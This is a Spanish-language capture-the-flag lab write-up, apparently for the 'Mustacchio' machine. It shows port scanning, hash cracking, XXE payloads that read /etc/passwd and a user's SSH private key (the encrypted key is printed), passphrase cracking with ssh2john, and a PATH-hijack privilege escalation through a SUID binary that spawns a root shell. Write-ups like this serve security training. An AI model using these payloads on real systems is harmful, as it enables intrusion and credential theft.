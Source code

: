 # Mustacchio

## Scanning

```shell
nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n -oG allports 10.10.0.151
nmap -sC -sV -p 22,80 -Pn -n -oN targeted 10.10.0.151
```

![0814160418.png](0814160418.png)

## 80

Para la página usamos wfuzz para buscar carpetas en la página. Encontramos que existe la carpeta custom y dentro la carpeta js donde podemos ver el archivo `users.bak`.

![0814160416.png](0814160416.png)

Usamos el comando file para saber que tipo de archivo es.

![0814170529.png](0814170529.png)

Usaremos la herramienta que tenemos en parrot llamada sqlitebrowser para importar el archivo que debemos cambiar el nombre a '**users.sqlite**' aquí encontraremos un usuario y una contraseña o podría ser un hash.

![0814170503.png](0814170503.png)

Descubrimos que es algún tipo de sha1 así que usaremos john para crackear la contraseña.
![0814170546.png](0814170546.png)

## 8765

En https://IP:8765 encontramos un panel de administración donde podemos probar las credenciales que encontramos anteriormente.

![0816180630.png](0816180630.png)

En el código fuente encontramos un enlace como comentario. También había un comentario indicando que se podía entrar por ssh, esto lo tomaremos en cuenta más adelante.

![0816180626.png](0816180626.png)

Lo descargamos y encontramos que es un archivo xml.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
Este es un ejemplo de como enviar el comentario que te dan en el sitio web. Usaremos el siguiente código para probar el xxe.

## XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>miaumilliano</author>
  <com>meow</com>
</comment>
```

Como nos dieron la pista de que se puede ingresar con ssh entonces buscaremos si tiene algún id_rsa para conectarse con los usuarios que encontramos con la anterior consulta(`joe` y `barry`).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>miaumilliano</author>
  <com>meow</com>
</comment>
```

Con barry encontramos resultados.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

Vemos que esta encriptado pero podemos usar ssh2john para encontrar la contraseña necesaria para usar esta id_rsa.

```shell
python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john

john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

![0816180616](0816180616.png)

Ahora que encontramos la clave podemos ingresar al usuario barry.

```shell
ssh barry@10.10.211.98 -i id_rsa
```

![0816190721](0816190721.png)

## Privilege scalation

### SUID

```shell
find / -perm -u=s -type f 2>/dev/null
```

![0816190711](0816190711.png)

**/home/joe/livelog** parece ser un archivo sospechoso.
Al ejecutarlo podemos ver que lee los logs de la aplicación web.

Con la función ltrace vemos de que hace uso del comando tail
pero no usa una ruta absoluta por lo que podriamos cambiar el path para que busque primero en los archivos temporales un comando tail modificado que pueda ejecutar una terminal con los permisos que el SUID nos permita.

![0816190701](0816190701.png)

```shell
cd /tmp
echo "/bin/bash" > tail
chmod +x tail

export PATH=/tmp:$PATH
/home/joe/live_log
```

![0816190759](0816190759.png)
